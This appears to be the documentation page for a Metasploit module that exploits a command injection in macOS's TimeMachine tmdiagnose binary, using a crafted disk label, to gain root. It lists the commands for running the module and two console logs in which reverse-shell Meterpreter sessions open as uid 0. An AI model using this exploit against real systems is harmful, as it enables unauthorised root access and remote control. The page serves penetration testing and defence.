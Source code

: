 ## Vulnerable Application

This module exploits a command injection in TimeMachine on macOS <= 10.14.3 in order to run a payload as root. The tmdiagnose binary on OSX <= 10.14.3 suffers from a command injection vulnerability that can be exploited by creating a specially crafted disk label.

The tmdiagnose binary uses awk to list every mounted volume, and composes shell commands based on the volume labels. By creating a volume label with the backtick character, we can have our own binary executed with root privileges.

## Verification Steps

1. Get a session on a vulnerable system
2. `use exploit/osx/local/timemachine_cmd_injection`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios

### Mac OSX 10.14.3 (Mojave)

```

msf5 exploit(multi/handler) > use exploit/osx/local/timemachine_cmd_injection
msf5 exploit(osx/local/timemachine_cmd_injection) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:5555
[*] Uploading file: '/tmp/qhjlknnmf'
[*] Executing exploit '/tmp/qhjlknnmf'
[*] Exploit result:
2019-04-18 16:18:29.190 qhjlknnmf[51122:107119] creating dmg image
2019-04-18 16:18:33.300 qhjlknnmf[51122:107119] mounting malformed disk
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] sending XPC msg
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (808504 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:5555 -> 192.168.0.2:34270) at 2019-04-18 16:20:02 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

### MacOS 10.13.3 (High Sierra)

```
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.86.1.31:4444
[*] Uploading file: '/tmp/.xbdtqiynvb'
[*] Executing exploit '/tmp/.xbdtqiynvb'
[*] Exploit result:
2019-06-29 12:26:29.052 .xbdtqiynvb[553:3447] creating dmg image
2019-06-29 12:26:33.193 .xbdtqiynvb[553:3447] mounting malformed disk
2019-06-29 12:26:33.533 .xbdtqiynvb[553:3447] sending XPC msg
2019-06-29 12:26:33.534 .xbdtqiynvb[553:3447] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (813560 bytes) to 192.168.86.1.32
[*] Meterpreter session 3 opened (192.168.86.1.31:4444 -> 192.168.86.1.32:55888) at 2019-06-29 05:27:24 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
